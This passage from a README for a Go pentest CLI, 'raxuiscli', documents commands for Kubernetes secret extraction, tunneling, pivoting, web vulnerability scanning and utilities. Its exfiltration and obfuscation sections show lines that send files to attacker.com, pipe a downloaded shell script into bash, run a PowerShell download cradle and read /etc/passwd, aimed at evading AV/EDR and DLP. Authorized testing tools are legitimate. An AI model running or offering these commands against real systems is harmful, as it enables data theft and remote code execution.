**Use cases:**
- Containerized environment detection
- Escape vector search
- Exposed Docker socket exploitation

---

#### `k8s` - Kubernetes Pentest
Kubernetes penetration testing tools.

```bash
# Cluster information
raxuiscli k8s info

# Secret enumeration
raxuiscli k8s secrets

# RBAC analysis
raxuiscli k8s rbac

# Escape techniques
raxuiscli k8s escape
```

**Use cases:**
- Kubernetes cluster reconnaissance
- Secret extraction
- Permission analysis

---

### Tunneling & Pivoting

#### `tunnel` - Network Tunneling
DNS and TCP tunneling.

```bash
# DNS tunneling info
raxuiscli tunnel dns --domain tunnel.example.com

# TCP tunneling
raxuiscli tunnel tcp --local 8080 --remote target:80

# Tool list
raxuiscli tunnel tools
```

**Use cases:**
- DNS exfiltration
- Firewall bypass
- C2 communication

---

#### `pivot` - Network Pivoting
SOCKS proxy and port forwarding.

```bash
# Start SOCKS5 proxy
raxuiscli pivot socks --port 1080

# Local port forwarding
raxuiscli pivot forward -L 8080:target:80

# Remote port forwarding
raxuiscli pivot reverse -R 4444:localhost:22

# SSH tunneling commands
raxuiscli pivot ssh
```

**Use cases:**
- Internal network access
- Multi-hop pivoting
- Segmentation bypass

---

### Exfiltration

#### `exfil` - Data Exfiltration
Exfiltration helpers.

```bash
# DNS exfiltration
raxuiscli exfil dns -d attacker.com -f secret.txt

# HTTP exfiltration
raxuiscli exfil http -u http://attacker.com/upload -f data.zip

# ICMP exfiltration
raxuiscli exfil icmp -t attacker.com

# Encode for exfiltration
raxuiscli exfil encode -f sensitive.txt
```

**Use cases:**
- Stealthy data extraction
- DLP bypass
- Staging techniques

---

### Obfuscation

#### `obfuscate` - Payload Obfuscation
Command and script obfuscation.

```bash
# Base64
raxuiscli obfuscate base64 "whoami"

# XOR
raxuiscli obfuscate xor "payload" --key "secret"

# PowerShell
raxuiscli obfuscate powershell "Get-Process"
raxuiscli obfuscate powershell "IEX(New-Object Net.WebClient).DownloadString('http://...')"

# Bash
raxuiscli obfuscate bash "cat /etc/passwd"
raxuiscli obfuscate bash "curl http://attacker.com/shell.sh | bash"
```

**Use cases:**
- AV/EDR evasion
- Command obfuscation
- Payload generation

---

### Web Security

#### `http` - HTTP Requests
Custom HTTP requests with security header analysis.

```bash
# GET request
raxuiscli http get https://example.com

# POST with JSON data
raxuiscli http post https://api.com -d '{"user":"test"}'

# PUT request
raxuiscli http put https://api.com/item/1 -d '{"name":"new"}'

# DELETE request
raxuiscli http delete https://api.com/item/1

# HEAD request (headers only)
raxuiscli http head https://example.com

# OPTIONS request
raxuiscli http options https://api.com

# Security headers analysis
raxuiscli http headers https://example.com

# Trace redirects
raxuiscli http trace https://bit.ly/xxx

# Generate curl command
raxuiscli http curl https://api.com -X POST -d '{"x":1}'
```

**Use cases:**
- API testing and debugging
- Security header verification
- Redirect chain analysis
- Request crafting

---

#### `fuzz` - Web Fuzzing
Directory, parameter, and virtual host discovery.

```bash
# Directory brute force
raxuiscli fuzz dir https://example.com -w dirs.txt
raxuiscli fuzz dir https://example.com --common          # Built-in wordlist
raxuiscli fuzz dir https://example.com -e php,html,txt   # With extensions

# Parameter fuzzing
raxuiscli fuzz param "https://site.com?q=test" -w params.txt
raxuiscli fuzz param "https://site.com" --common

# Virtual host discovery
raxuiscli fuzz vhost https://10.10.10.10 -w vhosts.txt
raxuiscli fuzz vhost https://target.com -d example.com    # With domain suffix
```

**Use cases:**
- Hidden directory discovery
- Parameter enumeration
- Virtual host enumeration
- Content discovery

---

#### `vuln` - Vulnerability Scanning
Comprehensive web vulnerability detection.

```bash
# Quick scan (all basic checks)
raxuiscli vuln scan "https://site.com?id=1"
raxuiscli vuln scan "https://site.com?q=test" --level 3   # Aggressive

# XSS testing
raxuiscli vuln xss "https://site.com?q=test"
raxuiscli vuln xss "https://site.com?name=foo" --level 3

# SQL injection
raxuiscli vuln sqli "https://site.com?id=1"
raxuiscli vuln sqli "https://site.com?cat=1" --level 3

# Local File Inclusion
raxuiscli vuln lfi "https://site.com?file=about.php"

# Security headers
raxuiscli vuln headers https://example.com

# CORS misconfiguration
raxuiscli vuln cors https://api.com
raxuiscli vuln cors https://api.com --origin "https://evil.com"
raxuiscli vuln cors https://api.com --full

# NoSQL injection (MongoDB)
raxuiscli vuln nosqli "https://api.com/users?id=1"
raxuiscli vuln nosqli "https://api.com/login" -d '{"user":"test","pass":"test"}'
raxuiscli vuln nosqli "https://api.com" --level 3

# XXE (XML External Entity)
raxuiscli vuln xxe https://api.com/upload
raxuiscli vuln xxe https://api.com --payload file
raxuiscli vuln xxe https://api.com --oob http://callback.com

# GraphQL security
raxuiscli vuln graphql https://api.com/graphql
raxuiscli vuln graphql https://api.com/graphql --introspect
raxuiscli vuln graphql https://api.com/graphql --dos

# Host header injection
raxuiscli vuln host https://example.com
raxuiscli vuln host https://example.com --poison   # Password reset poisoning
raxuiscli vuln host https://example.com --cache    # Cache poisoning

# Race conditions
raxuiscli vuln race "https://api.com/transfer" -d '{"amount":100}' --requests 50
raxuiscli vuln race "https://api.com/redeem" -d '{"code":"PROMO"}' --requests 20

# List payloads
raxuiscli vuln payloads xss --level 3
raxuiscli vuln payloads sqli --level 2
raxuiscli vuln payloads nosqli
```

**Use cases:**
- Web application security testing
- OWASP Top 10 detection
- API security assessment
- GraphQL endpoint security
- Race condition testing

---

#### `cookie` - Cookie Analysis
Cookie decoding and security analysis.

```bash
# Decode cookie value
raxuiscli cookie decode "eyJhZG1pbiI6dHJ1ZX0="

# Analyze security flags
raxuiscli cookie analyze "session=abc; HttpOnly; Secure"

# Flask session decode
raxuiscli cookie flask ".eJx..." --secret "key"

# Express session decode
raxuiscli cookie express "s:..." --secret "key"

# Detect session type
raxuiscli cookie detect ".eJxNjDEOwCAIAP..."

# Find sensitive data
raxuiscli cookie sensitive '{"user":"admin","role":"admin"}'

# Bulk analysis
raxuiscli cookie bulk "sess=x" "user=y" "token=z"
```

**Use cases:**
- Session cookie analysis
- Framework session decoding
- Cookie security assessment
- Sensitive data detection

---

### Utilities

#### `encode` - Encoding/Decoding
Format conversion.

```bash
raxuiscli encode base64 "text"
raxuiscli encode base64 -d "dGV4dA=="
raxuiscli encode hex "text"
raxuiscli encode url "text with spaces"
```

#### `hash` - Hash Calculation
```bash
raxuiscli hash md5 "text"
raxuiscli hash sha256 "text"
raxuiscli hash sha512 -f file.bin
```

#### `hashid` / `hash identify` - Hash Identification
Identify the likely type of a hash and, for each candidate, the hashcat mode
(`-m`) and John the Ripper format needed to crack it. Recognizes structured
formats (bcrypt, `*crypt`, phpass, LDAP, Django, Kerberoast, MSSQL, MySQL, ...)
by signature, and plain hex/base64 digests by length, returning a ranked list.
```bash
raxuiscli hashid "5d41402abc4b2a76b9719d911017c592"      # MD5 / NTLM / MD4 ...
raxuiscli hashid '$2y$10$N9qo8uLOickgx2ZMRZo...'         # bcrypt (hashcat -m 3200)
raxuiscli hash identify '$krb5tgs$23$*user$DOM$svc*...'  # Kerberoast (-m 13100)
raxuiscli --output=json hashid "<hash>"                  # machine-readable
```

#### `pwgen` - Password Generator
```bash
raxuiscli pwgen
raxuiscli pwgen --length 20
raxuiscli pwgen --no-symbols
```

#### `hexdump` - Hexadecimal Display
```bash
raxuiscli hexdump file.bin
raxuiscli hexdump file.bin --limit 256
```

#### `strings` - String Extraction
```bash
raxuiscli strings binary.exe
raxuiscli strings binary.exe --min-length 8
```

#### `entropy` - Entropy Calculation
```bash
raxuiscli entropy file.bin
```

#### `metadata` - File Metadata
```bash
raxuiscli metadata image.jpg
raxuiscli metadata document.pdf
```

#### `files` - File Operations
Encrypt, decrypt, compress, extract, checksum, find, and securely shred files.
```bash
raxuiscli files checksum report.pdf
raxuiscli files encrypt secret.txt --algo aes256 --key-file key.bin --out secret.enc
raxuiscli files decrypt secret.enc --key-file key.bin --out secret.txt
raxuiscli files compress logs/                 # archive a directory
raxuiscli files extract archive.tar.gz
raxuiscli files find /var --name '*.conf'
raxuiscli files shred secret.txt               # secure delete
```

#### `todo` - Task Management
A small local todo list.
```bash
raxuiscli todo add "Write the report"
raxuiscli todo list
raxuiscli todo complete 1
raxuiscli todo incomplete 1
```

#### `ports` - Port Scanner
TCP/UDP port scanner with preset ranges (`common`, `web`, `dev`, `database`, `system`, `extended`, `all`).
```bash
raxuiscli ports -H localhost -p common
raxuiscli ports -H example.com -p 80,443,8080
raxuiscli ports -H 192.168.1.1 -p 1-1024 --scan-type tcp --timeout 3
```

---

## Project Structure

```
RaxuisCLI/
├── cmd/                    # CLI commands (Cobra)
│   ├── root.go
│   ├── dns.go
│   ├── whois.go
│   ├── cipher.go
│   ├── jwt.go
│   └── ...
├── internal/               # Business logic
│   ├── dns/
│   ├── whois/
│   ├── cipher/
│   ├── jwt/
│   └── ...
├── bin/                    # Compiled binaries
├── CLAUDE.md               # Development guide
├── ROADMAP.md              # Project progress
└── README.md
```

---

## Development

```bash
# Install dependencies
go mod tidy

# Build
go build -o bin/raxuiscli .

# Run without building
go run main.go <command>
```

See [CLAUDE.md](CLAUDE.md) for development guidelines and how to add new commands.

---

## Disclaimer

⚠️ **This tool is intended for educational purposes and authorized security testing only.**

Using this tool against systems without explicit authorization is illegal. The authors disclaim any responsibility for malicious use.

---

## Roadmap

See [ROADMAP.md](ROADMAP.md) for progress and upcoming features.

## Command catalog

<!-- BEGIN GENERATED COMMAND CATALOG -->
This table is generated from the command catalog. `stable` means the implementation is supported; `experimental` means it may be incomplete or change; `informational` means it primarily provides guidance or generated examples.

| Category | Stable | Experimental | Informational | Total |
|---|---:|---:|---:|---:|
| audit & reporting | 8 | 0 | 0 | 8 |
| core | 7 | 0 | 0 | 7 |
| cryptography | 0 | 31 | 0 | 31 |
| infrastructure | 0 | 22 | 1 | 23 |
| network | 0 | 8 | 0 | 8 |
| offensive security | 0 | 58 | 14 | 72 |
| utilities | 0 | 29 | 0 | 29 |
| web security | 0 | 33 | 2 | 35 |
<!-- END GENERATED COMMAND CATALOG -->

---

## License

MIT License

---

## Author

[Raxuis](https://github.com/Raxuis)
